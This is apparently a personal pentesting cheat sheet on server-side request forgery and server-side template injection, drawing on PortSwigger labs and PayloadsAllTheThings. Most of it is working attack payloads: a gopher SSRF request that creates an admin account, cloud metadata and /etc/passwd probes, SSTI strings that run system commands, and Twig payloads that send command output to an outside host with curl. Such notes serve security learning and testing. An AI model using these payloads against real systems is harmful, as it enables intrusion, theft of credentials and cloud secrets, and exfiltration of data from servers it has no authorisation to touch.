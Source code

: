 [Owasp](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf#page=9&zoom=100,96,210)

- Basically look for areas where the victim sends a request or downloads from another location ex: `assets.test.com`. And then try accessing localhost or other payloads. [PayloadAllthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- Gopher `gopher%3a//localhost%3a80/XPOST%2520/api/admin/create%2520HTTP/1.1%250aContent-Length%3a%252029%250aContent-Type%3a%2520application/x-www-form-urlencoded%250a%250ausername%3dhyst2%26password%3dhyst2` manually add `%20` for spaces and `%0a` for new lines then urlencode the wholething
- try `file:///` and all other methods
- aws `169.254.169.254` 
- google cloud `metadata.google.internal`
- `file:///c:/windows/win.ini` `file:///etc/passwd`
- `curl gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1`

### SSTI

- Nice labs from [PortSwigger](https://portswigger.net/web-security/all-labs)
- Look for injectable parameters and then fuzz - [PayloadAllthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz) has a good wordlists.
- Check template statements like ex: dropdown where you can choose if you want to display firstname, Lastname etc. try to break out of the template statement `firstname}}{{7*7` [Port Swigger](https://portswigger.net/research/server-side-template-injection)
- Tornado lab in portswigger this worked `{{2*2}}{%+import+os+%25}{{os.system('whoami')}}` [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- ex: `{% import os %}{{ os.popen("whoami").read() }}`
- After finding a vulnerable parameter and determining what template engine is used. go to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to check for code executions.

| Templating Engine | Language | Server/client Side |
| ---               | ---      | ---                |
| Twig              | PHP      |	Server Side       |
| Freemarker        |	Java     |	Server Side       |
| Pug/Jade          |JavaScript| 	Mostly Server Side|
| Jinja             | 	Python |  Server Side       |
| Handlebars        |JavaScript| 	Both              |
| Mustache          |	Multiple |	Varies            |

#### Twig
```php
<h1><?php echo $name ?></h1>
<p>Welcome to our site!</p>
<?php 
if ($isAdmin) {
  echo "<p>Henlo</p>";
}
?>
```
  - `{{7*7}}` `{{7*'7'}}` both are ok  = 49
  - Usually look for filter with `=>` they can be used with `system`
  - `{{['cat flag.txt']|map('system')}}`
  - `{{[0]|reduce('system','curl http://192.168.49.51/helloFromTheOtherSide')}}`
```php 
{% set output %} // used to exfill whoami from a form usigng craft cms
{{[0]|reduce('system','whoami')}}
{% endset %}
{% set exfill= output| url_encode %}
{{['curl http://192.168.49.191/a?exfill=' ~ exfill]|map('system')}}
```
